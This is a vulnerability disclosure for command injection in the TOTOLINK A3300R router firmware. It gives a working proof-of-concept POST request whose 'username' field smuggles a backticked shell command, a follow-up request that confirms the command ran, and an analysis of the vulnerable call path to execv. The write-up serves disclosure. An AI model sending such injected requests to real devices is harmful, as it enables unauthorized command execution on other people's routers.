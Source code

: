 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDdnsCfg` request,`username` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=12B107C61AD15CFD HTTP/1.1
Host: itotolink.net
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ddns.html?token=12B107C61AD15CFD
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"admin`ls>/web/234.txt`","password":"admin","topicurl":"setDdnsCfg"}
```

injection the command "ls>/web/234.txt"

![image-20240109130442174](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130442174.png)

check the result.

```
GET /234.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 17:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/static/css/advance_menu.css
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close
```

![image-20240109130507028](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130507028.png)

## Analysis

sub_40E920 will handle the `setDdnsCfg` request. sub_40E920 get `username` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109130751395](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130751395.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131330610.png)
